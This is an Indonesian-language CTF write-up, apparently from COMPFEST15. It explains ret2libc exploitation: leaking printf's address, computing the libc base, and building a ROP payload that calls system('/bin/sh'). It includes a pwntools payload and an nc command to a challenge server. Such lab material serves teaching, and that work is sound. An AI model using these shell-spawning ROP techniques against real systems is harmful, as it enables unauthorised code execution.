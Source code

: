 **Menghitung Base Address dari libc**
 
Hitung base address dari `libc` dengan mengurangkan alamat `printf` yang sudah dileak sebelumnya dengan offset `printf` dalam `libc`.

    libc_base = leaked_printf - libc.sym.printf

**Payload Kedua**
    
- Payload kedua bertujuan untuk menggunakan informasi dari payload pertama untuk memanggil fungsi `system()` dengan argumen `"/bin/sh"`, sehingga mendapatkan shell.
- Dengan base address yg sudah di dapat pada variable `libc_base`, kita dapat menentukan address dari fungsi `system` dan lokasi string `/bin/sh` di dalam `libc`. Caranya adalah tinggal jumlahkan saja keduanya.
- Jangan lupa juga untuk menambahkan `ret` lagi untuk memastikan stack allignment sesuai, sebelum memanggil `system`.

![flag2](images/flag2.png)

**Flag: COMPFEST15{ret2libc_more_like_ret2libzy_peazy_lemon_squeezy}**

# 3. ret2lib--c? i don't c it..
*Author: NeoZap*

Same binary as ret2libc, but where is the libc? I don't see it..

*NOTE: The libc used in this challenge is different from the one in ret2libc.*

```
nc 34.101.174.85 10008
```

### Solution
Challenge ini mirip dengan yang sebelumnya (*bahkan source code dan binary filenya juga sama*), jadi saya skip bagian code review dan identifikasi kasus. Yang membedakan adalah kali ini kita tidak diberikan file `libc.so.6`. Jadi kita perlu mencari tahu sendiri versi libc yang digunakan oleh server agar perhitungan base address libc tepat.

Berikut adalah payload untuk leak address printf

```py
payload  =  flat({
offset: [
        pop_rdi,
        elf.got.printf,
        ret, # stack alignment
        elf.plt.printf,
        ret,
        elf.symbols.main
]
})
io.sendlineafter('>', payload)
io.recv()
```
